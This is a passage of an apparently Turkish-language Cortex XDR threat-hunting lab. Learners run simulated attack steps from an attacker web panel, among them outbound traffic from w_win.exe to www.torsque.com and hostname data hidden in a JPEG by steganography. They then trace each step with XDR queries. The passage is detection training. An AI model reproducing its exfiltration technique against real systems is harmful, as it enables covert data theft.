HOST = <VICTIM hostname>
- XDR KONSOL İlgili kayıtta sağ tık → Investigate Causality Chain → Open card in New Tab.

- XDR KONSOL
w_win.exe→ sağ tık → Investigate in Timeline. Outgoing Connection aktivitelerindewww.torsque.com'a giden istek ve hemen ardından çalışan process görünür.

www.torsque.com'a giden istek ve hemen ardından çalışan process.7. Data Exfiltration
Cortex XDR, dosya tipinden bağımsız olarak davranışı kaydeder — JPEG ya da uzantısız dosyalar dahil. Burada w_win.exe'nin okuduğu ve oluşturduğu dosyaları avlarsınız.
- ATTACKER index.html → Steganography. Command alanına
hostnameyazıp Submit edin; oluşan dosya adını not alın. (İsterseniz Screenshot da deneyin.) Steganografi, veriyi masum görünümlü bir JPEG'in içine saklar.

hostname → Submit.
ud/...jpg dosyası.
hostname çıktısı (EC2AMAZ-…) görselin içine gizlenmiş.- XDR KONSOL Incident Response → Query Builder → File. File Activity'de Create + Read seçin, Process NAME'e
w_win.exeyazın:
Process NAME = w_win.exe
File Activity = Create + Read
w_win.exe'nin oluşturduğu ve okuduğu dosyaları bir arada görürsünüz — exfiltration'ın dosya izi budur.

Saldırının her aşamasını hem çalıştırdınız hem de Cortex XDR ile avladınız.